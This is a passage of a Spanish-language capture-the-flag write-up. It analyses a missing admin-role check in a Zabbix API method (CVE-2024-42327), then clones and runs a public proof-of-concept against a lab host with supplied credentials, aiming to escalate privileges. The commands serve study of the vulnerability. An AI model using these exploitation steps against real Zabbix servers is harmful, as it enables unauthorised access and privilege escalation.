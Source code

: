 Luego tenemos el método `addRelatedRole(array $options, array &$result): void`
```php
private function addRelatedRole(array $options, array &$result): void {
	if ($options['selectRole'] === null) {
		return;
	}

	while ($db_role = DBfetch($db_roles)) {
		$userid = $db_role['userid'];
		unset($db_role['userid']);
		$relation_map = $this->createRelationMap($result, 'userid', 'roleid');

		$result[$userid]['role'] = $db_role;
	}
}
```

Que primero comprueba si `selectRole === null`, si es así el método no hace nada y simplemente retorna.

Usa `DBfetch` para obtener los datos de la consulta SQL (`$db_roles`), luego extrae `userid` del resultado para asignarlo al usuario correspondiente.

**Lo importante del análisis es que en ningún momento se comprueba que el usuario que utiliza la API tenga el rol de administrador, por lo cual podríamos realizar esta explotación u otra que vamos a realizar mas adelante.**

Podemos consultar [este PoC](https://github.com/aramosf/cve-2024-42327/blob/main/cve-2024-42327.py) que explota la vulnerabilidad para ver que hace el código.

```console
git clone https://github.com/aramosf/cve-2024-42327/
Cloning into 'cve-2024-42327'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 8 (delta 0), reused 8 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (8/8), done.
```

Ejecutando el PoC vemos que no nos devuelve nada, esto es porque este exploit se usa simplemente para conseguir la información de los demás usuarios de Zabbix, y nosotros queremos llevarlo al "siguiente nivel" y escalar privilegios.
```console
python3 cve-2024-42327.py -u http://10.129.120.77/zabbix/api_jsonrpc.php -n matthew -p 96qzn0h2e1k3
Valid session token: 6c7d87a472a37967ae50423779c115ed
```

## Using the API
Así que vamos a empaparnos de la [documentación de la API](https://www.zabbix.com/documentation/current/en/manual/api) y ver primero, como podemos autenticarnos.

Vemos que podemos autenticarnos utilizando un API token o utilizar el método `user.login` que es utilizando nuestro usuario y contraseña.
